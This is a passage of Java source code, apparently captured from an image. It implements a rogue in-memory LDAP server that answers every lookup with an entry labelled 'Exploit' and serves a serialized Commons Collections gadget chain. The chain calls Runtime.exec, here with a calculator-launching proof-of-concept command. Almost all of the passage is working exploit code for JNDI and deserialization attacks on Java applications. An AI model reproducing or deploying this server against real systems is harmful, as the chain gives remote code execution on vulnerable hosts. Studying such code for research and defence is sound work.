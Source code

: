 ```java
            config.addInMemoryOperationInterceptor(new OperationInterceptor());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = "Exploit";
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, IOException, NoSuchFieldException, IllegalAccessException, ParseException {
            e.addAttribute("javaClassName", "foo");
            e.addAttribute("javaSerializedData", Base64.decode(ccbase64()));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
    private static String ccbase64() throws IOException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
        Map lazymap = LazyMap.decorate(new HashMap<>(), chainedTransformer);
        HashMap<Object, Object> hashMapnew = new HashMap<>();
        TiedMapEntry mapentry = new TiedMapEntry(new HashMap<>(), 'a');
        hashMapnew.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashMapnew);
        oos.flush();
        return Base64.encode(bos.toByteArray());
    }
}
```
